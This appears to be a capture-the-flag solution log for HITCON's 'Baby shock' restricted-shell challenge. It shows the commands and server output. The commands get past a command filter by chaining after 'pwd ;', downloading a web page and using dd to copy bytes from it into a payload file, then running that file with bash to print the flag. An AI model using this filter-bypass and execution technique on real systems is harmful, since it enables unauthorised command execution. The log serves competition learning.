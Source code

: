 ```
index.html                                          [ <=>                                                                                                 ]  12.13K  --.-KB/s    in 0.001s

2020-11-29 16:13:00 (16.4 MB/s) - ‘index.html’ saved [12417]


pwd ; rm index.html
pwd ; rm payload
pwd ; wget hitcon.org
pwd ; dd if=index.html of=payload bs=1 count=1 skip=167 seek=0
pwd ; dd if=index.html of=payload bs=1 count=1 skip=58 seek=1
pwd ; dd if=index.html of=payload bs=1 count=1 skip=40 seek=2
pwd ; dd if=index.html of=payload bs=1 count=1 skip=23 seek=3
pwd ; dd if=index.html of=payload bs=1 count=1 skip=42 seek=4
pwd ; dd if=index.html of=payload bs=1 count=1 skip=66 seek=5
pwd ; dd if=index.html of=payload bs=1 count=1 skip=13 seek=6
pwd ; dd if=index.html of=payload bs=1 count=1 skip=23 seek=7
pwd ; dd if=index.html of=payload bs=1 count=1 skip=25 seek=8
pwd ; bash payload
[+] Opening connection to 54.248.135.16 on port 1986: Done
[+] Receiving all data: Done (889B)
[*] Closed connection to 54.248.135.16 port 1986
connected!
welcome to Baby shock, doo, doo, doo, doo, doo, doo!!!
> > > > > > > > > > > > > > > > > > > > > > /hitcon/75.188.17.80
> > > > > /hitcon/75.188.17.80
/hitcon/75.188.17.80
Connecting to hitcon.org (172.67.200.105:80)
Connecting to hitcon.org (172.67.200.105:443)
index.html           100% |*******************************| 12253   0:00:00 ETA

/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
hitcon{i_Am_s0_m155_s3e11sh0ck}
```
